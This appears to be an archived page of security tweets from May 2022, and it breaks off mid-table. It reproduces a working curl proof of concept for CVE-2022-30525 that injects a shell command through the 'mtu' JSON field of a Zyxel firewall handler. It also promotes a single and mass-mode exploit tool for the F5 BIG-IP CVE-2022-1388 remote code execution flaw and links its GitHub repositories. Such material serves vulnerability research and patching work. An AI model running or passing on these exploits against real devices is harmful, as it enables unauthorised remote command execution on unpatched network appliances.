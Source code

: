 
# momika233
**https://twitter.com/momika233/status/1525096747835719690 _at 2022-05-13, 12:52:54_**
<blockquote>
curl -v --insecure -X POST -H "Content-Type: application/json" -d
'{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}'
https://192.168.1.1/ztp/cgi-bin/handler

CVE-2022-30525
</blockquote>

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>179</code></td>
<td>Favorites: <code>705</code></td>
</tr></table>

---

# akazh18
**https://twitter.com/akazh18/status/1525062528270622720 _at 2022-05-13, 10:36:55_**
<blockquote>
Just Tool for checking and exploit BIG-IP iControl REST vulnerability CVE-2022-1388 (RCE)
mode:
- single
- mass

Link:
https://t.co/epzOzfkwnS
LAB:
https://t.co/snsnEgMKpa

#CVE #CVE20221388 #F5 #bugbounty #bugbountytips #infosec #zeroday #0day https://t.co/RlqQJs75Sy
</blockquote>

* https://github.com/justakazh/CVE-2022-1388
* https://github.com/bandit92/CVE2022-1388_TestAPI

<table><tr>
<td><img src="pictures/0373e6c4c47c16047e9a8034dde91619d04986fff34ae8465859125358ded105.jpg" alt="0373e6c4c47c16047e9a8034dde91619d04986fff34ae8465859125358ded105.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>